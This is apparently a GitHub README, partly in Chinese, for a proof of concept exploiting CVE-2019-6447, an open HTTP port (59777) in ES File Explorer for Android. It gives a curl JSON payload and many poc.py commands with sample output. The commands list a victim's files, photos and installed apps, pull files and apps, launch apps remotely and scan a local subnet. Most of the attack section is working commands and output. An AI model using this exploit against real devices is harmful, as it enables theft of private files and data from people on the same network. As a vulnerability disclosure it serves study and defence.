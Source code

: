 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES文件管理器(文件管理器)是一个功能齐全的文件(图像，音乐，电影，文件，应用程序)管理器，为本地和网络使用!ES File Explorer(文件管理器)在全球拥有超过5亿用户，帮助您高效地管理您的android手机和文件，并在无需数据成本的情况下共享文件。

每次用户启动应用程序时，都会启动一个HTTP服务器。此服务器在本地打开端口59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

在这个端口上，攻击者可以向目标发送JSON格式payload
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```
这些命令允许攻击者**连接到同一个本地网络上的受害者**，获取大量有关受害者手机的有趣信息(设备信息、安装的应用程序、……)，**远程从受害者手机获取文件**，**远程启动受害者手机上的应用程序**。

## 影响版本
4.1.9.7.4 以下

## POC Features
有了以下的(POC)，你可以:

-列出受害者设备的sdcard中的所有文件
-列出受害者设备上的所有图片
-列出受害者设备中的所有视频
-列出受害者设备中的所有音频文件
-列出受害者设备上安装的所有应用程序
-列出受害者设备上安装的所有系统应用程序
-列出受害者设备上安装的所有手机应用程序
-列出所有储存在受害者设备的sdcard中的apk文件
-列出受害者设备上安装的所有应用程序
-获取受害者设备的设备信息
-从受害设备中提取文件
-启动你选择的应用程序
-获取您选择的应用程序的图标

## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)

![](https://www.superbed.cn/pic/5c43e1575f3e509ed9437a06)

![](https://www.superbed.cn/pic/5c43de555f3e509ed9436bb7)

## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py --cmd listFiles --network 192.168.1.

$ python poc.py list

######################
# Available Commands #
######################
listFiles：列出所有文件
listPics：列出所有图片
listVideos：列出所有视频
listAudios：列出所有音频文件
listApps：列出所有已安装的应用
listAppsSystem：列出所有系统应用
listAppsPhone：列出所有手机应用
listAppsSdcard：列出所有sdcard 
listAppsAll：列出安装的所有应用程序（包括系统应用程序）
getDeviceInfo：获取设备信息
appPull：从设备中提取应用程序。需要包名称参数
appLaunch：启动应用程序。需要包名称参数
getAppThumbnail：获取应用程序的图标。包名称参数是必需的
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip from [@moonbocal](https://twitter.com/moonbocal), the investigation and the POC has been made with ❤️ by @fs0c131y
